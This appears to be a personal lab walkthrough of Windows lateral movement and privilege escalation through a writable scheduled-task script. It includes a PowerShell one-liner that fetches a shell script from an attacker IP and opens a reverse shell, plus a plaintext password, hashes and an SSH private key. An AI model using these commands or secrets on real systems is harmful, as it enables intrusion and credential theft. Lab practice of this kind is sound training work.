 - Since we get `relia\andrea`'s password from `7` and he is within group `WKRDP`. We can `rdp` into the host  which can be confirmed by running `netexec`. ![[Pasted image 20240223104215.png]]
- Run `xfreerdp /v:172.16.110.15 /d:relia /u:andrea /p:PasswordPassword_6 /drive:resources,/home/saxon/Desktop /dynamic-resolution` to get a `rdp` session as `relia\andrea`.
# PrivEsc
- `winpeas` will identify we have `WriteData/CreateFiles` on file `C:\schedule.ps1`. 
	- Upon further inspection, it involves in an action of  moving an executable belong to `milana` to another folder, indicating it is probably running periodically and with the privilege of `milana` or higher.
	- Running `schtasks /query /v /fo list > task.txt` and search for `scheduler.ps1` can further confirm the assumption.![[Pasted image 20240223113652.png]]
- Edit the file by add the line `powershell.exe -nop -w hidden -c iex(iwr http://192.168.45.195/Windows/nishang/Shells/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 192.168.45.195 443` to receive a reverse shell as `relia\muilana`.
	- which also happens to be one of the local administrator.![[Pasted image 20240223113117.png]]
# Loot
- offsec: cf998001c44803b490a46f363a2ca812
- `relia\milana`: 2237ff5905ec2fd9ebbdfa3a14d1b2b6
- `sarah`: 
```id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACBEhRgOw+Adwr6+R/A54Ng75WK1VsH1f+xloYwIbFnoAwAAAJgtoEZgLaBG
YAAAAAtzc2gtZWQyNTUxOQAAACBEhRgOw+Adwr6+R/A54Ng75WK1VsH1f+xloYwIbFnoAw
AAAECk3NMSFKJMauIwp/DPYEhMV4980aMdDOlfIlTq3qy4SkSFGA7D4B3Cvr5H8Dng2Dvl
YrVWwfV/7GWhjAhsWegDAAAADnRlc3RzQGhhdC13b3JrAQIDBAUGBw==
-----END OPENSSH PRIVATE KEY-----
```